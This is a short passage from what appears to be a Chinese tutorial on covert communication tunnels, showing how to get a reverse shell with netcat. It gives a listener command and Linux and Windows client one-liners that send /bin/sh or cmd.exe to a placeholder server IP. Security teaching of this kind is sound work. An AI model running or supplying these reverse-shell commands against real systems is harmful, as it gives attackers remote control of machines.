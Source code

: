 （9）获取反向shell

在服务端监听本地6666端口：

```
nc -lvp 6666
```

![](img/隐藏通信隧道基础知识/39.png)

在客户端连接服务端的6666端口，并反弹shell：

```
linux:
nc 192.168.2.12[服务端ip] 6666 -e /bin/sh
windows:
nc 192.168.2.12[服务端ip] 6666 -e c:\windows\system32\cmd.exe
```
